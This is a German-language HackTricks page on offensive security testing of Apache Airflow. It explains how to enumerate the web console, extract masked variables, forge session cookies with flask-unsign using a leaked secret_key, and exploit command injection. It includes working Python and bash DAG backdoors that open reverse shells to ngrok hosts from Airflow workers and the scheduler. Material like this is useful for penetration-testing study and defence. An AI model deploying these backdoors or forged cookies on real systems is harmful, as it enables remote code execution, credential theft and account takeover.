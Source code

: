 # Apache Airflow Sicherheit

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Grundlegende Informationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform zur **Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess des Anordnens, Koordinierens und Verwaltens komplexer Datenworkflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und nutzbare Datensätze bereitzustellen. Diese Datensätze werden von einer Vielzahl von Anwendungen umfassend genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschaft und Machine-Learning-Modelle, die alle grundlegend für die Funktionsweise von Big-Data-Anwendungen sind.

Grundsätzlich ermöglicht es Apache Airflow, die **Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **geschieht**.

## Lokales Labor

### Docker-Compose

Sie können die **Docker-Compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn Sie auf MacOS sind, stellen Sie sicher, dass Sie der Docker-VM mindestens 6 GB RAM zuweisen).

### Minikube

Eine einfache Möglichkeit, **Apache Airflow auszuführen**, besteht darin, es **mit Minikube auszuführen**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder es könnten schwache Konfigurationen vorhanden sein:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Bevor Sie Airflow angreifen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Angriffe

### Web-Konsolen-Auflistung

Wenn Sie **Zugriff auf die Web-Konsole** haben, könnten Sie auf einige oder alle der folgenden Informationen zugreifen können:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Greifen Sie darauf zu unter `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jedes DAGs** (der möglicherweise interessante Informationen enthält)

### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** auf ihre Werte zugreifen können. Es ist ähnlich wie bei Secrets anderer Plattformen. Wenn Sie **ausreichende Berechtigungen** haben, können Sie auf sie im GUI unter `http://<airflow>/variable/list/` zugreifen.\
Standardmäßig zeigt Airflow den Wert der Variablen im GUI an, jedoch ist es gemäß [**diesem**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** im **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (79).png>)

Diese **Werte** können jedoch immer noch über **CLI** (Zugriff auf die DB erforderlich), **beliebige DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar das GUI selbst!** **abgerufen** werden.\
Um auf diese Werte aus dem GUI zuzugreifen, wählen Sie einfach die Variablen aus, auf die Sie zugreifen möchten, und klicken Sie auf Aktionen -> Export.\
Eine andere Möglichkeit besteht darin, einen **Brute-Force-Angriff** auf den **versteckten Wert** durchzuführen, indem Sie ihn mit der **Suchfilterung** suchen, bis Sie ihn finden:

![](<../../.gitbook/assets/image (30).png>)

### Privilege Escalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können Benutzer ab der **Rolle Benutzer** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel seinen eigenen signierten Cookie erstellen kann, um das Konto eines anderen Benutzers zu **imitieren**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE in Airflow worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **einen erstellen**, der Ihnen eine **umgekehrte Shell sendet**.\
Beachten Sie, dass diese umgekehrte Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Backdoor (RCE in Airflow Scheduler)

Wenn Sie etwas **im Stamm des Codes ausführen**, wird es zum Zeitpunkt des Verfassens dieses Textes **vom Scheduler ausgeführt**, nachdem es einige Sekunden lang im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine innerhalb des DAG-Clusters zu kompromittieren**, können Sie neue **DAG-Skripte** im `dags/`-Ordner erstellen, die dann in den anderen Maschinen im DAG-Cluster **repliziert werden**.

### DAG-Codeinjektion

Wenn Sie einen DAG aus der GUI ausführen, können Sie **Argumente übergeben**.\
Daher könnte der DAG **anfällig für Befehlsinjektion sein**, wenn er nicht ordnungsgemäß codiert ist.\
Das ist das, was bei dieser CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Befehlsinjektionen in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **abgerufen** werden.

Darüber hinaus könnte dieselbe Schwachstelle bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Berechtigungen den **Wert der Variablen in der GUI steuern könnten**). Variablen werden **mit** abgerufen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie zum Beispiel innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
